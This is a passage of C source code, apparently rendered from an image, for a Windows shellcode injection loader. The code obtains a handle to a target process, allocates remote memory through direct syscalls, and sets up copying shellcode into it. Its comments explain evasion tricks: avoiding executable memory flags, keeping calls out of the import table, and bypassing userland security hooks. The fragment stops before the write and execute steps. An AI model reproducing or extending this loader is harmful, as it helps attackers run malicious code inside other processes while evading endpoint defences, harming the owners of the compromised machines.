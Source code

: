 ```c
        tpid = GetProcessId(argv[1]);
    }

    if (tpid == 0) {
#ifdef _DEBUG
        printf("Invalid PID or process name specified\n");
#endif
        return 1;
    }

    // Obtain an handle to the remote process.
    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, tpid);

    if (!hProc) {
#ifdef _DEBUG
        printf("Getting an handle on remote process using OpenProcess failed: %x\n", GetLastError());
#endif
        return 1;
    }

    // Allocate the memory section for the shellcode as PAGE_READWRITE (to avoid more detected PAGE_EXECUTE_READWRITE).

    size_t szAllocated = szShellcode;

    /* Standard API. */
    // LPVOID shellcodeBaseAddress = VirtualAllocEx(hProc, 0, szAllocated, (MEM_RESERVE | MEM_COMMIT), PAGE_READWRITE);

    /* ntdll direct call (to avoid an import in the IAT). */
    // pNtAllocateVirtualMemory NtAllocateVirtualMemoryFunc = (pNtAllocateVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll"), "NtAllocateVirtualMemory");
    // NtAllocateVirtualMemoryFunc(hProc, &shellcodeBaseAddress, 0, (PULONG)&szAllocated, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    /* Direct syscall with Syswhisper2 to avoid userland hooks. */
    LPVOID shellcodeBaseAddress = NULL;
    NTSTATUS AllocateVirtualMemoryStatus = NtAllocateVirtualMemory(hProc, &shellcodeBaseAddress, 0, (PSIZE_T)&szAllocated, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    if (!shellcodeBaseAddress) {
#ifdef _DEBUG
        printf("Allocation of memory using VirtualAllocEx failed: %x\n", AllocateVirtualMemoryStatus);
#endif
        return 1;
    }

    // Copy the shellcode in the newly allocated memory section.

    /* Standard API. */
//     BOOL WriteProcessMemoryStatus = WriteProcessMemory(hProc, shellcodeBaseAddress, shellcode, sizeof(shellcode), NULL);
//     if (!WriteProcessMemoryStatus) {
//#ifdef _DEBUG
//         printf("Writing the shellcode memory to remote process using WriteProcessMemory failed: %x\n", GetLastError());
//#endif
//        return 1;
//     }

    /* ntdll direct call (to avoid an import in the IAT). */
```